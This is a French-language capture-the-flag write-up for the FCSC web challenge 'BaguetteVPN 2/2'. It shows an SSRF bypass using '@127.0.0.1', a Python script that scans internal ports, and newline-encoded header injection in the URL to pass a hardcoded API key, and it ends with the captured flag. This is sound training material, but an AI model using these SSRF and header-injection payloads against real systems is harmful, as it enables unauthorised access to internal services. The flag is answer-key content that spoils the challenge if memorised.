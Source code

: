 # BaguetteVPN 2/2
<img src="https://user-images.githubusercontent.com/74382279/117364841-b2b29780-aebe-11eb-9e7f-52f116bab774.png"/><br/>
## Résolution
C'est la partie la plus compliquée du challenge.<br/>
Pour commencer, brêve analyse du fichier ```./baguettevpn_server_app_v0.py```.<br/>
Cette fonction devrait nous print le flag:<br/>
```py
@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)
```
Cependant, on est confronté face à plusieurs conditions.<br/>
On doit trouver un moyen de requêter à travers le serveur, on s'attend donc à exploiter une faille de type SSRF.<br/>
On s'attaquera à la deuxième condition plus tard.<br/>
## SSRF
En fouillant le site, j'apperçois un point d'injection pottentiellement vulnérable à une SSRF.<br/>
Le paramètre ```/api/image?fn=``` permet de read des fichiers internes.<br/>
Je décide donc d'exploiter ce paramètre, en me munissant de ce cheatsheet plutôt complet: <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery">Link</a>.<br/>
En premier temps j'essaye  ```/api/image?fn=127.0.0.1```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839960727799595079/unknown.png?width=1440&height=323"/><br/>
Malheureusement la requête ne passe pas, j'ajoute donc un ```@``` pour bypass les weak parsers.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840212540935110706/unknown.png?width=1440&height=335"/><br/>
Malheureusement, toujours rien.<br/>
En lisant l'énoncé du challenge je vois qu'une énumération des ports inférieurs à 2000 est autorisée.<br/>
Je fais donc la même chose en gardant la même injection ```/api/image?fn=@127.0.0.1:[port]``` et en énumérant les ports.<br/>
Pour ce faire, j'ai fait un script afin d'automatiser tout ça.<br/>
```py
import requests as r

if __name__ == "__main__":
	with r.session() as s:
		for i in range(0, 2000 + 1):
			response = s.get("http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:%s" % (str(i)))
			if "Internal Server Error" not in response.text:
				print(response.url)
```
Après quelques minutes je vois que le port ```1337``` a été match.<br/>
Je me rends donc à ```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839958634514612284/unknown.png?width=1440&height=490"/><br/><br/>
Good, on est sur la bonne voie.<br/>
Je me rends à la path ```/api/secret``` et je vois que requête passe bien localement.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839959391415697428/unknown.png?width=1440&height=462"/><br/><br/>
Première condition validée, on passe donc à la deuxième condition.<br/>
## HTTP Request Smuggling
```py
if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12'
```
On doit trouver un moyen d'utiliser des headers dans l'URL.<br/>
A ce moment-là, j'ai immédiatement su qu'il s'agissait d'une faille de type HTTP Request Smuggling.<br/>
Dans ce genre de situations, il y a 3 types d'acteurs:<br/>
**• L'attaquant**<br/>
**• Le proxy/firewall**<br/>
**• Le serveur web**<br/>
Cette faille a beaucoup de variantes, généralement elle surgit de cette manière:<br/>
**• L'attaquant se connecte au proxy, il envoie ABC**<br/>
**• Le proxy l'interprète comme AB, C, et le rédirige vers le serveur**<br/>
**• Le serveur web l'interprète comme A, BC, et répond avec r(A), r(BC)**<br/>
**• Proxy caches r(A) pour AB, r(BC) pour C**<br/>
La première chose que je fais c'est ajouter ```HTTP/1.1``` dans l'URL.<br/>
J'obtiens une erreur de parsing plutôt intéressante:<br/>
```PHP
Error response
Error code: 400

Message: Bad request syntax ('GET /api/secret HTTP/1.1 HTTP/1.1').

Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.
```
Je constate que le ```HTTP/1.1``` a bien été ajouté dans le corps de la requête.<br/>
Mon idée consitait à retaper le corps de la requête directement dans l'URL, en faisant attention aux sauts de ligne (Line feed).<br/>
J'ai donc tenté de push le header X-API-KEY en ajoutant le ```%0a``` (\n).<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12```<br/>
Aucun résultat, je suppose qu'il y a un header ```Content-Length``` initialisé à 0 qui bloque la requête.<br/>
Je calcule la taille de la clé X-API-KEY.<br/>
```py
>>> print(len("b99cc420eb25205168e83190bae48a12"))
32
```
J'ajoute le header ```Content-Length``` avec la taille de la clé (32).<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12%0aContent-length:32```<br/>
```json
{"secret":"FCSC{6e86560231bae31b04948823e8d56fac5f1704aaeecf72b0c03bfe742d59fdfb}"}
```
Done.<br/>
### Sources
https://bugs.php.net/bug.php?id=80043&edit=1
